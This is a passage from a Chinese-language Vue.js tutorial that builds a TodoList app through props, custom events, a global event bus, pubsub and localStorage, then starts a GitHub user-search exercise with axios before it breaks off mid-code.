  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}

</style>
```


### MyHeader.vue


```java
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认"/>
  </div>
</template>

<script>
export default {
  name: "MyHead",
  data() {
    return {}
  }
}
</script>

<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>
```


### MyItem.vue


```java
<template>
  <li>
    <label>
      <input type="checkbox"/>
      <span>xxxxx</span>
    </label>
    <button class="btn btn-danger" style="display:none">删除</button>
  </li>
</template>

<script>
export default {
  name: "MyItem",
  data() {
    return {}
  }
}
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
</style>
```


### MyList.vue


```java
<template>
  <ul class="todo-main">
      <MyItem></MyItem>
  </ul>
</template>

<script>
import MyItem from "@/components/todoList/MyItem";

export default {
 name: "MyList",
 data(){
    return{}
 },components:{MyItem}
}
</script>

<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```


### 页面展示





### vue开发者工具





## 初始化列表


### MyList.vue


```java
<template>
  <ul class="todo-main">
      <MyItem v-for="(todo,index) in todos" :key="todo.id" :index="index" :todo="todo"></MyItem>
  </ul>
</template>

<script>
import MyItem from "@/components/todoList/MyItem";

export default {
 name: "MyList",
 data(){
    return{
      todos:[
        {id:'001',title:'抽烟',done:true},
        {id:'002',title:'喝酒',done:false},
        {id:'003',title:'美女',done:true},
        {id:'004',title:'开车',done:true}
      ]
    }
 },components:{MyItem}
}
</script>

<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```


### MyItem.vue


```java
<template>
  <li>
    <label>
      <input type="checkbox" v-bind:checked="todo.done"/>
      <span>{{todos.title}}</span>
    </label>
    <button class="btn btn-danger" style="display:none">删除</button>
  </li>
</template>

<script>
export default {
  name: "MyItem",
  data() {
    return {
      todos:this.todo
    }
  },props:['todo']
}
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
</style>
```


### 页面效果




## 安装nanoid(id生成插件)


```java
npm i nanoid
```


接下来可能用到


## 添加一个todo


### 需求分析


我们现在要增加一个todo，但是数据在MyList组件中，所以我们需要把数据换一个位置，因为这样我们通过pops来传递。

然后通过子类类调用父类的方法来传递值




### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
          <MyHead :addTodo="addTodo"></MyHead>
          <MyList :todos="todos"></MyList>
          <MyFooter></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";
export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      todos:[
        {id:'001',title:'抽烟',done:true},
        {id:'002',title:'喝酒',done:false},
        {id:'003',title:'美女',done:true},
        {id:'004',title:'开车',done:true}
      ]
    }
  }, methods: {
    addTodo(x) {
      this.msg = '12312'
      console.log('app组件接收到信息',x)
      this.todos.unshift(x)
    }
  },
}
</script>
<style >
/*css省略*/
</style>
```


### MyHead.vue


```java
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认" v-model="title" @keyup.enter="add"/>
  </div>
</template>

<script>

export default {
  name: "MyHead",
  props:['addTodo'],
  data() {
    return {
      title:''
    }
  }, methods: {
    add() {
      this.msg = '12312'
      const todoList = {id:Date.now(),title:this.title,done: false}
      this.addTodo(todoList)
    }
  }
}
</script>

<style scoped>
/*css省略*/
</style>
```


### MList.vue


```java
<template>
  <ul class="todo-main">
    <MyItem v-for="(todo,index) in todos" :key="todo.id" :index="index" :todo="todo"></MyItem>
  </ul>
</template>

<script>
import MyItem from "@/components/todoList/MyItem";

export default {
  name: "MyList",
  props: ['todos'],
  data() {
    return {
      myTodos:this.todos
    }
  }, components: {MyItem}
}
</script>

<style scoped>
/*css省略*/
</style>
```


### 效果





## 勾选切换状态


### 需求分析


按照我们所学的内容，肯定是利用props来传递数据。

App组件—>MyList组件—>MyItem组件

是不是很麻烦，后面我们学习完订阅发布就不会这么麻烦了


### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
          <MyHead :addTodo="addTodo"></MyHead>
          <MyList :todos="todos" :checkTodo="checkTodo"></MyList>
          <MyFooter></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";


export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      todos:[
        {id:'001',title:'抽烟',done:true},
        {id:'002',title:'喝酒',done:false},
        {id:'003',title:'美女',done:true},
        {id:'004',title:'开车',done:true}
      ]
    }
  }, methods: {
    addTodo(x) {
      this.msg = '12312'
      console.log('app组件接收到信息',x)
      this.todos.unshift(x)
    },
    checkTodo(id){
      this.todos.forEach((item)=>{
        if (item.id === id) {
          item.done=!item.done
          return;
        }
      })
    }
  },
}
</script>
<style >
/*****************css省略****************/
</style>
```


### MyList.vue


```java
<template>
  <ul class="todo-main">
    <MyItem v-for="(todo,index) in todos" :key="todo.id" :index="index" :todo="todo" :checkTodo="checkTodo"></MyItem>
  </ul>
</template>

<script>
import MyItem from "@/components/todoList/MyItem";

export default {
  name: "MyList",
  props: ['todos','checkTodo'],
  data() {
    return {
      myTodos:this.todos
    }
  }, components: {MyItem}
}
</script>

<style scoped>
/*****************css省略****************/
</style>
```


### MyItem.vue


```java
<template>
  <li>
    <label>
      <input type="checkbox" v-bind:checked="todo.done" @change="handleChecked(todo.id)"/>
      <span>{{todos.title}}</span>
    </label>
    <button class="btn btn-danger" style="display:none">删除</button>
  </li>
</template>

<script>
export default {
  name: "MyItem",
  data() {
    return {
      todos:this.todo
    }
  },props:['todo','checkTodo']
  ,methods:{
    handleChecked(id){
      this.checkTodo(id)
    }
  }
}
</script>

<style scoped>
/*****************css省略****************/
</style>
```


## 删除


### 需求分析


增加删除按钮

再通过props来传递方法


### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHead :addTodo="addTodo"></MyHead>
        <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></MyList>
        <MyFooter></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";


export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      todos: [
        {id: '001', title: '抽烟', done: true},
        {id: '002', title: '喝酒', done: false},
        {id: '003', title: '美女', done: true},
        {id: '004', title: '开车', done: true}
      ]
    }
  }, methods: {
    addTodo(x) {
      this.msg = '12312'
      console.log('app组件接收到信息', x)
      this.todos.unshift(x)
    },
    checkTodo(id) {
      this.todos.forEach((item) => {
        if (item.id === id) {
          item.done = !item.done
          return;
        }
      })
    }, deleteTodo(id) {
      console.log(id)
      this.todos = this.todos.filter((item) => {
       return  item.id !== id
      });
    }
  },
}
</script>
<style>
/*****************css省略****************/

</style>
```


### MyList.vue


```java
<template>
  <ul class="todo-main">
    <MyItem v-for="(todo,index) in todos" :key="todo.id" :index="index" :todo="todo" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></MyItem>
  </ul>
</template>

<script>
import MyItem from "@/components/todoList/MyItem";

export default {
  name: "MyList",
  props: ['todos','checkTodo','deleteTodo'],
  data() {
    return {
      myTodos:this.todos
    }
  }, components: {MyItem}
}
</script>

<style scoped>
/*****************css省略****************/

</style>
```


### MyItem.vue


```java
<template>
  <li>
    <label>
      <input type="checkbox" v-bind:checked="todo.done" @change="handleChecked(todo.id)"/>
      <span>{{ todos.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
export default {
  name: "MyItem",
  data() {
    return {
      todos: this.todo
    }
  }, props: ['todo', 'checkTodo','deleteTodo']
  , methods: {
    handleChecked(id) {
      this.checkTodo(id)
    }, handleDelete(id) {
      if(confirm('确定删除吗？')){
        this.deleteTodo(id)
      }
    }
  }
}
</script>

<style scoped>
/*****************css省略以下是新增加的****************/

li:hover{
  background-color: #ddd;
}

li:hover button{
  display: block;
}
</style>
```


### 效果





## 底部统计


### 需求分析


页面上统计我们就可以使用到那个计算属性。


### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHead :addTodo="addTodo"></MyHead>
        <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></MyList>
        <MyFooter :todos="todos"></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";


export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      todos: [
        {id: '001', title: '抽烟', done: true},
        {id: '002', title: '喝酒', done: false},
        {id: '003', title: '美女', done: true},
        {id: '004', title: '开车', done: true}
      ]
    }
  }, methods: {
    addTodo(x) {
      this.msg = '12312'
      console.log('app组件接收到信息', x)
      this.todos.unshift(x)
    },
    checkTodo(id) {
      this.todos.forEach((item) => {
        if (item.id === id) {
          item.done = !item.done
          return;
        }
      })
    }, deleteTodo(id) {
      console.log(id)
      this.todos = this.todos.filter((item) => {
       return  item.id !== id
      });
    }
  },
}
</script>
<style>
/*****************css省略****************/

</style>
```


### MyFooter.vue


```java
<template>
  <div class="todo-footer">
    <label>
      <input type="checkbox"/>
    </label>
    <span>
          <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
        </span>
    <button class="btn btn-danger">清除已完成任务</button>
  </div>
</template>

<script>
export default {
  name: "MyFooter",
  props: ['todos'],
  data() {
    return {}
  },
  computed: {
    total() {
      return this.todos.length
    },
    doneTotal() {
      //第一值是上次计算的值，第二个是对象
      return this.todos.reduce((pre, sufix) => {
        return pre + (sufix.done ? 1 : 0)
      }, 0)//设置初始迭代值
    }
  }
}
</script>

<style scoped>

/*****************css省略****************/

</style>
```


## 底部交互


### 需求统计


底部的全选全删除


### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHead :addTodo="addTodo"></MyHead>
        <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></MyList>
        <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";


export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      todos: [
        {id: '001', title: '抽烟', done: true},
        {id: '002', title: '喝酒', done: false},
        {id: '003', title: '美女', done: true},
        {id: '004', title: '开车', done: true}
      ]
    }
  }, methods: {
    addTodo(x) {
      this.msg = '12312'
      console.log('app组件接收到信息', x)
      this.todos.unshift(x)
    },
    checkTodo(id) {
      this.todos.forEach((item) => {
        if (item.id === id) {
          item.done = !item.done
          return;
        }
      })
    }, deleteTodo(id) {
      console.log(id)
      this.todos = this.todos.filter((item) => {
       return  item.id !== id
      });
    },
    //全选or取消全选
    checkAllTodo(done){
      this.todos.forEach((todo)=>{
        todo.done = done
      })
    },
  //清除所有已经完成的todo
  clearAllTodo(){
    this.todos = this.todos.filter((todo)=>{
      return !todo.done
    })
  }
  },
}
</script>
<style>
/*****************css省略****************/
</style>
```


### MyFooter.vue


```java
<template>
  <div class="todo-footer">
    <label>
      <input type="checkbox" v-model="isAll"/>
    </label>
    <span>
          <span>已完成{{ doneTotal }}</span> / 全部{{ total }}
        </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>

<script>
export default {
  name: "MyFooter",
  props: ['todos','checkAllTodo','clearAllTodo'],
  data() {
    return {}
  },
  computed: {
    total() {
      return this.todos.length
    },
    doneTotal() {
      //第一值是上次计算的值，第二个是对象
      return this.todos.reduce((pre, sufix) => {
        return pre + (sufix.done ? 1 : 0)
      }, 0)//设置初始迭代值
    },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0
      },
      set(value) {
        this.checkAllTodo(value)
      }
    }
  },methods:{
    //清空所有已完成
    clearAll(){
      this.clearAllTodo()
    }
  }
}
</script>

<style scoped>

/*****************css省略****************/
</style>
```


## TodoList第一次总结


1. 组件化编码流程：

   ​	(1).拆分静态组件：组件要按照功能点拆分，命名不要与html元素冲突。

   ​	(2).实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用：

   ​			1).一个组件在用：放在组件自身即可。

   ​			2). 一些组件在用：放在他们共同的父组件上（<span style="color:red">状态提升</span>）。

   ​	(3).实现交互：从绑定事件开始。

2. props适用于：

   ​	(1).父组件 ==> 子组件 通信

   ​	(2).子组件 ==> 父组件 通信（要求父先给子一个函数）

3. 使用v-model时要切记：v-model绑定的值不能是props传过来的值，因为props是不可以修改的！

4. props传过来的若是对象类型的值，修改对象中的属性时Vue不会报错，但不推荐这样做。


## TodoList使用游览器本地缓存


### 注意


[建议学完7.9：游览器的存储功能](#7.9：游览器的存储功能)


### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHead :addTodo="addTodo"></MyHead>
        <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></MyList>
        <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";


export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      //由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos:JSON.parse(localStorage.getItem('todos')) || []
    }
  }, methods: {
    addTodo(x) {
      this.msg = '12312'
      console.log('app组件接收到信息', x)
      this.todos.unshift(x)
    },
    checkTodo(id) {
      this.todos.forEach((item) => {
        if (item.id === id) {
          item.done = !item.done
          return;
        }
      })
    }, deleteTodo(id) {
      console.log(id)
      this.todos = this.todos.filter((item) => {
       return  item.id !== id
      });
    },
    //全选or取消全选
    checkAllTodo(done){
      this.todos.forEach((todo)=>{
        todo.done = done
      })
    },
  //清除所有已经完成的todo
  clearAllTodo(){
    this.todos = this.todos.filter((todo)=>{
      return !todo.done
    })
  }
  },watch:{
    todos:{
      deep:true, //开始深度监视
      handler(value){
        console.log(value)
        localStorage.setItem('todos',JSON.stringify(value))
      }
    }
  }
}
</script>
<style>
/*忽略css*/

</style>
```


## TodoLIst使用自定义事件


### 注意


[建议学完7.10：组件间的自定义事件](#7.10：组件间的自定义事件)


### 需求分析


+ 原有的todolist项目页面不用动
+ 我们修改的组件有
  + app
  + MyHeader
  + MyFooter

+ **以下代码为了更好观看只展示修改部分**

### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHead @addTodo="addTodo"></MyHead>
        <MyList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></MyList>
        <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
//没有修改的地方，省略掉
</script>
<style>
//没有修改的地方，省略掉
</style>
```


### MyHeader.vue


```java
<template>
//没有修改的地方，省略掉
</template>
<script>
export default {
  name: "MyHead",
  // props:['addTodo'],
  data() {
    return {
      title:''
    }
  }, methods: {
    add() {
      this.msg = '12312'
      const todoList = {id:Date.now(),title:this.title,done: false}
      // this.addTodo(todoList)
      this.$emit('addTodo',todoList)
    }
  }
}
</script>

<style scoped>
//没有修改的地方，省略掉
</style>
```


### MyFooter


```java
<template>
  //没有修改的地方，省略掉
</template>

<script>
export default {
  name: "MyFooter",
  props: ['todos', 'checkAllTodo', 'clearAllTodo'],
  data() {
    return {}
  },
  computed: {
    total() {
      return this.todos.length
    },
    doneTotal() {
      //第一值是上次计算的值，第二个是对象
      return this.todos.reduce((pre, sufix) => {
        return pre + (sufix.done ? 1 : 0)
      }, 0)//设置初始迭代值
    },
    isAll: {
      get() {
        return this.doneTotal === this.total && this.total > 0
      },
      set(value) {
        // this.checkAllTodo(value)
        this.$emit("checkAllTodo", value)
      }
    }
  }, methods: {
    //清空所有已完成
    clearAll() {
      // this.clearAllTodo()
      this.$emit('clearAllTodo');
    }
  }
}
</script>
<style scoped>
//没有修改的地方，省略掉
</style>
```


## TodoList全局时间总线


### 学到哪里


[我们要学到：全局事件总线（GlobalEventBus）](#8.1：全局事件总线（GlobalEventBus）)


### main,js


```java
import Vue from 'vue'
import App from './App.vue'

Vue.config.productionTip = false

window.x = {a: 1, b: 2}
new Vue({
    render: h => h(App),
    beforeCreate() {
        Vue.prototype.$bus = this
    }
}).$mount('#app')
```


### App.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHead @addTodo="addTodo"></MyHead>
        <MyList :todos="todos" ></MyList>
        <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";

export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      //由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: JSON.parse(localStorage.getItem('todos')) || []
    }
  },
  methods: {
    addTodo(x) {
      this.msg = '12312'
      console.log('app组件接收到信息', x)
      this.todos.unshift(x)
    },
    checkTodo(id) {
      this.todos.forEach((item) => {
        if (item.id === id) {
          item.done = !item.done
          return;
        }
      })
    }, deleteTodo(id) {
      console.log(id)
      this.todos = this.todos.filter((item) => {
        return item.id !== id
      });
    },
    //全选or取消全选
    checkAllTodo(done) {
      this.todos.forEach((todo) => {
        todo.done = done
      })
    },
    //清除所有已经完成的todo
    clearAllTodo() {
      this.todos = this.todos.filter((todo) => {
        return !todo.done
      })
    }
  }, watch: {
    todos: {
      deep: true, //开始深度监视
      handler(value) {
        console.log(value)
        localStorage.setItem('todos', JSON.stringify(value))
      }
    }
  },mounted() {
    this.$bus.$on("checkTodo",this.checkTodo)
    this.$bus.$on("deleteTodo",this.deleteTodo)
  },beforeDestroy() {
    this.$bus.$off("checkTodo");
    this.$bus.$off("deleteTodo");
  }
}
</script>
<style>
/*base*/
</style>
```


### MyList.vue


```java
<template>
  <ul class="todo-main">
    <MyItem v-for="(todo,index) in todos" :key="todo.id" :index="index" :todo="todo" ></MyItem>
  </ul>
</template>
<script>
import MyItem from "@/components/todoList/MyItem";
export default {
  name: "MyList",
  props: ['todos'],
  data() {
    return {
      myTodos:this.todos
    }
  }, components: {MyItem}
}
</script>

<style scoped>

</style>
```


### MyItem.vue


```java
<template>
  <li>
    <label>
      <input type="checkbox" v-bind:checked="todo.done" @change="handleChecked(todo.id)"/>
      <span>{{ todos.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>
<script>
export default {
  name: "MyItem",
  data() {
    return {
      todos: this.todo
    }
  }, props: ['todo']
  , methods: {
    handleChecked(id) {
      // this.checkTodo(id)
      this.$bus.$emit("checkTodo",id)
    }, handleDelete(id) {
      if(confirm('确定删除吗？')){
        // this.deleteTodo(id)
        this.$bus.$emit("deleteTodo",id)
      }
    }
  }
}
</script>

<style scoped>

</style>
```


### 测试


页面测试选中功能和删除功能


## TodoList消息订阅与发布


### 学到哪里


[8.2：消息订阅发布](#8.2：消息订阅发布)


### app.vue


```java
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">
        <MyHead @addTodo="addTodo"></MyHead>
        <MyList :todos="todos"></MyList>
        <MyFooter :todos="todos" @checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"></MyFooter>
      </div>
    </div>
  </div>
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";
import Schools from "@/components/Schools";
import student from "@/components/student";
import pubsub from  'pubsub-js'
export default {
  name: "App",
  components: {MyList, MyFooter, MyHead, Schools, student},
  // components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      //由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: JSON.parse(localStorage.getItem('todos')) || []
    }
  },
  methods: {
    addTodo(x) {
      this.msg = '12312'
      console.log('app组件接收到信息', x)
      this.todos.unshift(x)
    },
    checkTodo(id) {
      this.todos.forEach((item) => {
        if (item.id === id) {
          item.done = !item.done
          return;
        }
      })
    }, 
      deleteTodo(methodName,id) {
      console.log(methodName)
      console.log(id)
      this.todos = this.todos.filter((item) => {
        return item.id !== id
      });
    },
    //全选or取消全选
    checkAllTodo(done) {
      this.todos.forEach((todo) => {
        todo.done = done
      })
    },
    //清除所有已经完成的todo
    clearAllTodo() {
      this.todos = this.todos.filter((todo) => {
        return !todo.done
      })
    }
  }, watch: {
    todos: {
      deep: true, //开始深度监视
      handler(value) {
        console.log(value)
        localStorage.setItem('todos', JSON.stringify(value))
      }
    }
  }, mounted() {
    this.$bus.$on("checkTodo", this.checkTodo)
    this.$bus.$on("deleteTodo", this.deleteTodo)
    this.pubId = pubsub.subscribe('deleteTodo',this.deleteTodo)//更新的地方在这
  }, beforeDestroy() {
    this.$bus.$off("checkTodo");
    this.$bus.$off("deleteTodo");
    pubsub.unsubscribe(this.pubId)
  }
}
</script>
<style>


</style>
```


### MyItem.vue


```java
<template>
  <li>
    <label>
      <input type="checkbox" v-bind:checked="todo.done" @change="handleChecked(todo.id)"/>
      <span>{{ todos.title }}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
import pubsub from 'pubsub-js'
export default {
  name: "MyItem",
  data() {
    return {
      todos: this.todo
    }
  }, props: ['todo']
  , methods: {
    handleChecked(id) {
      // this.checkTodo(id)
      this.$bus.$emit("checkTodo",id)
    }, handleDelete(id) {
      if(confirm('确定删除吗？')){
        // this.deleteTodo(id)
        // this.$bus.$emit("deleteTodo",id)
        pubsub.publish('deleteTodo',id)
      }
    }
  }
}
</script>

<style scoped>

</style>
```


 

## TodoList编辑功能


### app.vue


新增加`updateTodo`方法

```java
<template>
	//******************省略****************************//
</template>

<script>
import MyList from "@/components/todoList/MyList";
import MyFooter from "@/components/todoList/MyFooter";
import MyHead from "@/components/todoList/MyHeader";

import pubsub from  'pubsub-js'
export default {
  name: "App",
  components: {MyList, MyFooter, MyHead},
  // components: {MyList, MyFooter, MyHead},
  data() {
    return {
      msg: '小糊涂',
      //由于todos是MyHeader组件和MyFooter组件都在使用，所以放在App中（状态提升）
      todos: JSON.parse(localStorage.getItem('todos')) || []
    }
  },
  methods: {
  	//******************省略****************************//
    //更新一个todo
    updateTodo(id,title){
      this.todos.forEach((todo)=>{
        if(todo.id === id) todo.title = title
      })
    }
  }, watch: {
   	//******************省略****************************//
  }, mounted() {
	//******************省略****************************//
    this.$bus.$on('updateTodo',this.updateTodo)

  }, beforeDestroy() {
	//******************省略****************************//
    this.$bus.$off('updateTodo')
  }
}
</script>
<style>

</style>
```


### MyItem.vue


```java
<template>
  <li>
    <label>
      <input type="checkbox" v-bind:checked="todo.done" @change="handleChecked(todo.id)"/>
      <span v-show="!todo.isEdit">{{todo.title}}</span>
      <input
          type="text"
          v-show="todo.isEdit"
          :value="todo.title"
          @blur="handleBlur(todo,$event)"
          id="inputTitle"
      >
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
    <button v-show="!todo.isEdit" class="btn btn-edit" @click="handleEdit(todo)">编辑</button>
  </li>
</template>

<script>
import pubsub from 'pubsub-js'
export default {
  name: "MyItem",
  data() {
    return {
    }
  }, props: ['todo']
  , methods: {
    handleChecked(id) {
      // this.checkTodo(id)
      this.$bus.$emit("checkTodo",id)
    },
    handleDelete(id) {
      if(confirm('确定删除吗？')){
        // this.deleteTodo(id)
        // this.$bus.$emit("deleteTodo",id)
        pubsub.publish('deleteTodo',id)
      }
    },
    //编辑
    handleEdit(todo){
      console.log(todo)
      if(  Object.prototype.hasOwnProperty.call(todo, "isEdit")){
        todo.isEdit = true
      }else{
        // console.log('@')
        this.$set(todo,'isEdit',true)
      }
      this.$nextTick(function(){
       document.getElementById('inputTitle').focus()
      })
    },
    //失去焦点回调（真正执行修改逻辑）
    handleBlur(todo,e){
      todo.isEdit = false
      if(!e.target.value.trim()) return alert('输入不能为空！')
      this.$bus.$emit('updateTodo',todo.id,e.target.value)
    }
  }
}
</script>

<style scoped>

</style>
```


# 项目练习：GitHub搜索


## 静态页面


### css


bootstrap.css需要

index.css

```java
.album {
  min-height: 50rem; /* Can be removed; just added for demo purposes */
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}

.card {
  float: left;
  width: 33.333%;
  padding: .75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}

.card > img {
  margin-bottom: .75rem;
  border-radius: 100px;
}

.card-text {
  font-size: 85%;
}

```


### html


````java
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Title</title>
  <link rel="stylesheet" href="./bootstrap.css">
  <link rel="stylesheet" href="./index.css">
</head>
<body>
<div id="app">
  <div class="container">
    <section class="jumbotron">
      <h3 class="jumbotron-heading">Search Github Users</h3>
      <div>
        <input type="text" placeholder="enter the name you search"/>&nbsp;<button>Search</button>
      </div>
    </section>
    <div class="row">
      <div class="card">
        <a href="https://github.com/xxxxxx" target="_blank">
          
        </a>
        <p class="card-text">xxxxxx</p>
      </div>
      <div class="card">
        <a href="https://github.com/xxxxxx" target="_blank">
          
        </a>
        <p class="card-text">xxxxxx</p>
      </div>
      <div class="card">
        <a href="https://github.com/xxxxxx" target="_blank">
          
        </a>
        <p class="card-text">xxxxxx</p>
      </div>
      <div class="card">
        <a href="https://github.com/xxxxxx" target="_blank">
          
        </a>
        <p class="card-text">xxxxxx</p>
      </div>
      <div class="card">
        <a href="https://github.com/xxxxxx" target="_blank">
          
        </a>
        <p class="card-text">xxxxxx</p>
      </div>
    </div>
  </div>
</div>
</body>
</html>
````


### 效果





## 请求地址


https://api.github.com/search/users?q=????


## main.js


```java
import Vue from 'vue'
import App from './App.vue'
import axios from 'axios'
Vue.config.productionTip = false


new Vue({
    render: h => h(App),
    beforeCreate() {
        Vue.prototype.$bus = this
        Vue.prototype.axios = axios
    }
}).$mount('#app')
```


## index.html


```java
<!DOCTYPE html>
<html lang="">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width,initial-scale=1.0">
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    <link rel="stylesheet" href="<%= BASE_URL %>css/bootstrap.css">
    <title><%= htmlWebpackPlugin.options.title %></title>
  </head>
  <body>
    <noscript>
      <strong>We're sorry but <%= htmlWebpackPlugin.options.title %> doesn't work properly without JavaScript enabled. Please enable it to continue.</strong>
    </noscript>
    <div id="app"></div>
    <!-- built files will be auto injected -->
  </body>
</html>
```


## app.vue


```java
<template>
  <div class="container">
    <Search></Search>
    <List></List>
  </div>
</template>
<script>
import Search from "@/components/github/Search";
import List from "@/components/github/List";
export default {
  name: 'App',
  components:{Search,List},
  data() {
    return {}
  }, methods: {

  }
}
</script>
```


## search.vue


```java
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <input type="text" placeholder="enter the name you search" v-model="message"/>&nbsp;
      <button @click="search">Search</button>
    </div>
  </section>
</template>

<script>
import axios from "axios";

export default {
  name: "Search",
  data() {
    return {
      message: ''
    }
  }, methods: {
    search() {
      axios.get(`https://api.github.com/search/users?q=${this.message}`)
          .then(
              (response) => {
                console.log('请求成功吧',response.data.items)
